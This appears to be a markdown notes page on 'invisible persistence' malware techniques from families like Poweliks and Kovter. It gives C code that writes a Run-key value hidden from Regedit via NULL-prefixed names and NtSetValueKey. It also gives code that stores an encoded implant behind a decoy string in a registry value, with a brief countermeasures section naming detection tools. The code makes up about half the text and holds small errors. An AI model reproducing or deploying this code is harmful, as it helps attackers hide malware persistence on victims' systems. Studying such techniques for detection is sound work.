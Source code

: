 # Notes: INVISIBLE PERSISTENCE
## Hiding Registry Entries (Poweliks, Kovter, others) source: eWhite Hats
https://stackoverflow.com/questions/1721106/how-to-hide-a-value-on-the-registry-like-sysinternals-reghide-tool

It is possible to write a value to the Run key that Regedit will fail to display but that Windows will read properly when it checks the Run key after a reboot. 

```sh
// HIDDEN_KEY_LENGTH doesn't matter as long as it is non-zero.
// Length is needed to delete the key

define HIDDEN_KEY_LENGTH 11 
void createHiddenRunKey(const WCHAR* runCmd) { 
	LSTATUS openRet = 0; 
	NTSTATUS setRet = 0; 
	UNICODE_STRING ValueName = { 0 };
	wchar_t runkeyPath[0x100] = L"SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Run";
	wchar_t runkeyPath_trick[0x100] = L"\0\0SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Run";

	if (!NtSetValueKey) { 
	HMODULE hNtdll = LoadLibraryA("ntdll.dll")0;
	NtSetValueKey = (_NtSetValueKey)GetProcAddress(hNtdll, "NtSetValueKey"); 
	} 

	ValueName.Buffer = runkeyPath_trick; 
	ValueName.Length = 2 * HIDDEN_KEY_LENGTH;
	ValueName.MaximumLength = 0; 
<break/>
	if (!(openRet = RegOpenKeyExW(HKEY_CURRENT_USER, runkeyPath, 0, KEY_SET_VALUE, &hkResult))) { 
		if (!(setRet = NtSetValueKey(hkResult, &ValueName, 0, REG_SZ, (PVOID)runCmd, wcslen(runCmd) * 2))) 
			printf("SUCCESS setting hidden run value!\n"); 
		else 
			printf("FAILURE setting hidden run value! (setRet == 0x%X, GLE() == %d)\n", setRet, GetLastError());
		RegCloseKey(hkResult); 
	}
	else {
		printf("FAILURE opening RUN key in registry! (openRet == 0x%X, GLE() == %d)\n", openRet, GetLastError()); 
	}
}
```

In the above function, NtSetValueKey is passed the UNICODE_STRING ValueName. ValueName.Buffer would typically be set to “SOFTWARE\Microsoft\Windows\CurrentVersion\Run” to set a value of the Run key. Instead, we prepend this string with two WCHAR NULLs (“\0\0”) so ValueName.Buffer is “\0\0SOFTWARE\Microsoft\Windows\CurrentVersion\Run” 

Another common place to check for programs that auto run at system startup is Task Manager. In more recent versions of Windows the “Startup” tab has been added to Task Manager. The invisible persistence technique does not add an entry to the Task Manager Startup tab. 

<break/><break/>


### FILELESS BINARY STORAGE IN THE REGISTRY

While the invisible Run key technique completely hid the value (at the cost of an error message), this fileless binary technique displays a value, but hides its contents. Just like with the first technique, the contents of the value cannot be exported by Regedit. 
```
// this writes the binary buffer of the encoded implant to the registry as a sting
// according to winnt.h, REG_SZ is "Unicode nul terminated string"
// When the value is exported, only part of the value will actually be exported.

void writeHiddenBuf(char *buf, DWORD buflen, const char *decoy, char *keyName, const char* valueName) {
 HKEY hkResult = NULL;
 BYTE *buf2 = (BYTE*)malloc(buflen + strlen(decoy) + 1);
 strcpy((char*)buf2, decoy);
 buf2[strlen(decoy)] = 0;
 memcpy(buf2 + strlen(decoy) + 1, buf, buflen);
 if (!RegOpenKeyExA(HKEY_CURRENT_USER, keyName, 0, KEY_SET_VALUE, &hkResult))
 {
 printf("Key opened!\n");
 LSTATUS lStatus = RegSetValueExA(hkResult, valueName, 0, REG_SZ, (const BYTE *)buf2, buflen + strlen(decoy) + 1);
 printf("lStatus == %d\n", lStatus);
 RegCloseKey(hkResult);
 }
 free(buf2);
}
void readHiddenBuf(BYTE **buf, DWORD *buflen, const char *decoy, char * keyName, const char* valueName) {
 HKEY hkResult = NULL;
 LONG nError = RegOpenKeyExA(HKEY_CURRENT_USER, keyName, NULL, KEY_ALL_ACCESS, &hkResult);
 RegQueryValueExA(hkResult, valueName, NULL, NULL, NULL, buflen);
 *buf = (BYTE*)malloc(*buflen);
 RegQueryValueExA(hkResult, valueName, NULL, NULL, *buf, buflen);
 RegCloseKey(hkResult);
 *buflen -= (strlen(decoy) + 1);
 BYTE *buf2 = (BYTE*)malloc(*buflen);
 memcpy(buf2, *buf + strlen(decoy) + 1, *buflen);
 free(*buf);
 *buf = buf2;
}
```
First consider writeHiddenBuf. For this example, let decoy be “(value not set)”. The hidden buffer is prepended with “(value not set)\0”. The NULL byte at the end of the string will hide whatever comes after it so that Regedit does not display or export the hidden buffer. So long as RegSetValueExA is passed the length of decoy string + the length of the hidden buffer, it will write the entire buffer to the registry. readHiddenBuf retrieves the hidden buffer from the registry and removes the decoy string from the beginning of it.

The maligned registry entry will display (value not set).  The real data can be viewed if you choose "Modify Binary Data" on the value that has the hidden buffer.


### COUNTERMEASURES

These techniques rely on errors in how Regedit reads and display registry values. Other tools do not have the same errors and can be used to verify the output of Regedit. 

***`Autoruns from Sysinternals`*** , for example, will correctly display the hidden Run key values. 

Forensics tools like ***`FTK Registry Viewer`*** can view the hidden buffers stored in values if a copy is made of the registry hives on disk. 

Because the hive files are in use while Windows is running, use a tool like ***`HoboCopy`*** to make a copy of the hive files. 

***`SysInternals’s RegDelNull`*** scans the registry for entries with embedded NULL bytes and has the option of deleting those entries. 
